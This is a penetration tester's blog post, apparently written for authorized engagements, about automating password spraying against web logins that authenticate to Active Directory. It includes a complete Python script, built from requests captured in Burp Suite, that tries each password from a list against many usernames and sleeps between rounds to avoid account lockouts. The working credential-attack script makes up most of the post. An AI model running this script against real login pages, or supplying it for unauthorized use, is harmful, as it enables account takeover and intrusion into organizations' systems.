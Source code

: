 ```yaml
---
published: true
---
```

I frequently use the Intruder tab in Burp Suite Pro to password spray websites which use Active Directory authentication. One of the problems of using Burp Suite is that there doesn't seem to be a way to avoid lockout when using a long password list. Frequently I don't get a hit on valid password on the first try with Season/Year stuff like "Winter2018!" and need to run through a list of 51 common AD passwords that I have in a file. Sure, I can paste in a list of three or four passwords (depending on my client's lockout policy), but then I have to wait X minutes and then replace those passwords with three of four more, track the time between password spray runs, etc. That's a manual process, and I'd prefer something that I can setup and just let it run to completion.

This process is going to require the Pro version of Burp Suite because you'll need to install an extension from the BApp store. In Burp Suite, install the "Copy As Python-Requests" extension. Next, proxy an authentication request to the website through Burp with Intercept on, and when it pauses on the request, right click and choose "Copy as requests". If you paste the clipboard to your editor you'll notice that each line starts with "burp0".

In the following code, you'll notice where I have placed those "burp0" lines. Paste them in to your code editor at the bottom, the cut/paste each line over the related line in this script. In the line that begins with "burp0_data", you'll need to replace the user name and password that you entered on the web page with "username" and "password" as shown below.

Once you've updated the script with your data copied using the "Copy As Python-Requests" extension, run it using the parameters shown in the usage variable. Although the script outputs to CSV which can be sorted based on content length (sort -k4 -n -t, output.csv) or opened and sorted with Gnumeric or Excel, an easier way to sort the response headers may be to proxy the requests through Burp Suite and sort them there. An easy way to proxy through Burp without having to modify the script is to set an environmental variable: export HTTPS_PROXY=“http://127.0.0.1:8080”

The script also prints timestamps to the screen which is useful for those times that you get blamed for locking out users. I believe in logging everything, and this has saved my reputation more than once when I was blamed for account lockouts which ended up being caused by something in the client's environment.

```python
import requests
import sys
import time
from datetime import datetime

usage = "usage: python3 passwordSpray.py [/path/to/usernames.file] [/path/to/passwords.file] [minutes between each password loop] [output filename (csv)]"
if len(sys.argv) != 5:
    sys.exit(usage)
usernames = [line.rstrip('\n') for line in open(sys.argv[1])]
passwords = [line.rstrip('\n') for line in open(sys.argv[2])]
sleep_time = int(sys.argv[3]) * 60
report_header = "Username,Password,ResponseCode,ResponseLength,Redirects\n"
with open(sys.argv[4], 'w') as csvfile:
    csvfile.write(report_header)

burp0_url = "https://[redacted]:443/j_security_check"
burp0_cookies = {"redacted"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://[redacted]/j_security_check", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

for password in passwords:
    report_output = []
    for username in usernames:
        burp0_data={"j_username": username, "j_password": password, "browserLocale": "en_us", "domainName": "trust", "AUTHRULE_NAME": "ADAuthenticator", "buildNum": "100310", "clearCacheBuildNum": "100148"}
        request = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
        report_output.append(f'{username},{password},{request.status_code},{len(request.content)},{len(request.history)}')
    with open(sys.argv[4], 'a', newline='') as csvfile:
        csvfile.write('\n'.join(report_output))
    print("Completed spraying with password: {}. Time: {}".format(password, datetime.now().time()))
    print("Sleeping for {} minutes".format(sys.argv[3]))
    time.sleep(sleep_time)
```
